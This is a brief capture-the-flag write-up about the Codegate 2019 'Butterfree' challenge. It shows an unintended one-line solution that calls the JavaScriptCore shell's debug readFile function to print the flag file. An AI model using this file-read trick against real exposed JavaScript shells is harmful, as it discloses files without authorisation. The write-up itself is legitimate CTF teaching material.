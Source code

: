 ```yaml
---
title: "Butterfree - Codegate Quals 2019"
author: "chq-matteo"
comments: true
tags: codegate ctf unintended mhackeroni
---
```


> How not to pwn a modified 2018.11.18 Webkit

```
Butterfree
Download 2018.11.18 Webkit and Modified 

nc 110.10.147.110 17423 
Download 
Download2
```

We are given access to a JavaScriptCore shell.  
There was an hint on the official discord of the ctf that there was an unintended solution to this challenge, specifically a one-liner.

Given the hint we tried to `require` some path where the flag could be at.

Executing `require('flag')` we get a syntax error related to '{'.

We found that there is a debug feature in jsc shell that allows read from the file system

https://bugs.webkit.org/show_bug.cgi?id=125059

In the end the solution to the challenge is

```
> console.log(readFile('flag'))
flag{4240a8444fe8734044fca90700b3ade2}
```


The intended solution is very similar to https://github.com/WebKit/webkit/commit/650552a6ed7cac8aed3f53dd464341728984b82f
